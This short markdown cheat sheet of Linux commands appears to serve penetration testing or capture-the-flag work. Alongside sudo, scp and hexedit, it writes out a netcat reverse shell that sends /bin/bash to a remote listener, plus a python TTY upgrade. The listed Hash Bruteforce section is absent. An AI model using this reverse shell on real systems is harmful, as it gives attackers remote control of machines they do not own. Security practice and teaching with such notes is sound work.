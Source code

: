 # Linux

- [Sudo](#sudo)
- [Reverse Shell](#reverse-shell)
- [Hash Bruteforce](#hash-bruteforce)
- [SCP](#scp)
- [Editor](#editor)


## Sudo
```
sudo -l
```

## Reverse Shell
### Client
```
nc ip 4444 -e /bin/bash
```
### Server
```
nc -lp 4444
```
### TTY Support
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## SCP
### Download File
```
scp -P port user@192.168.1.ip:path .
```

### Upload File
```
scp -P port file user@192.168.1.ip:path
```

### Upload peda
```
scp -P 22 -r ~/.peda user@192.168.1.ip:/tmp/peda
```

## Editor
### Hexa
```
hexedit
```
